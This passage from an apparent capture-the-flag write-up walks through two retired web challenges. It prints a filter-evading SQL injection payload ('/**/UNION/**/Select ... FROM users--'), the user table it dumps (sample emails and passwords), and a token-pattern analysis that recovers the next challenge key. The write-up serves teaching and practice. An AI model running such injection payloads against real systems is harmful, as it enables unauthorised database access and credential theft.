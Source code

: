We have confirmed that we can successfully perform our own queries. Now, it's a matter of obtaining the contents of the user table using a similar query:

```
'/**/UNION/**/Select/**/*/**/FROM/**/users--
```

Sure enough, that is the solution:
```
1     bob      bob@mailinator.com      bobbobberson!                        1     1
2     jim      jim@gmail.com           jimisthebest123                      1     1
3     flag     you.got@me.com          efac33ad391b6077b176c7b8577588cd     1     1
4     jill     jill@mailtothis.com     jackandjill1                         1     1
```

Row three contains a link to the next challenge.

## Challenge 4

**Challenge URL: [REDACTED]/c/efac33ad391b6077b176c7b8577588cd**

No immediate signs of vulnerability in page source code. This does not seem to be another database challenge. The token quantity can be modified. The maximum token quantity per request is 100. Perhaps there is a pattern. The token length is 96 characters. Oddly, for every token, some of the characters are the same in their respective positions.

A few of the generated tokens:

```
a03c65315135a20576c39445100866875137f08d21b19d40919c63926e35456901392800c33b88818b47f80188b16704
a20c70374116a54593c26452136806800141f74d63b86d61932c81927e30433985305894c68b29826b95f28159b59734
a81c13338130a43572c68414136838846173f25d06b32d83918c71914e68404952331862c81b83898b18f38188b33772
a85c33333145a33562c46440137825816134f72d98b61d47928c43911e38411954360886c86b34856b09f48161b29797
```

Common characters with all others stripped (length is 32 characters):
```
ac31a5c41881fdbd9c9e4938cb8bf1b7
```

...Sure enough, that is the solution. I could have written a script for this, but it was quicker to do it by hand.

## Note

As mentioned previously, this is an older set of challenges that are no longer accessible. I intended to continue solving them, but had to work on other things.
